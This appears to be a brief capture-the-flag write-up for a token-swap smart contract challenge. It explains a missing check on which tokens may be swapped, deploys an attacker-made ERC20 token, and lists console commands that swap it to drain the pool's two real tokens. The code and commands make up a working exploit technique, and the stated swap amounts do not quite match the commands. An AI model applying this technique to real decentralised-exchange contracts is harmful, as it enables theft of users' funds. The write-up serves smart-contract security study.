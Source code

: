 The bug in this contract is that it does not validate that the swap is between same tokens, so here is ou advantage.
Create a contract that creates our token:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MYTOKEN is ERC20 {
    constructor(uint256 initialSupply) ERC20("MYTOKEN", "MT") {
        _mint(msg.sender, initialSupply);
    }
}
```
Now we can swap for 100 of token 1 and same for token 2.
MYTOKEN = (CONTRACT_ADDRESS)

t1 = await contract.token1()
t2 = await contract.token2()

await contract.swap(MYTOKEN, t1, 100)
await contract.swap(MYTOKEN, t2, 200)

We win :)
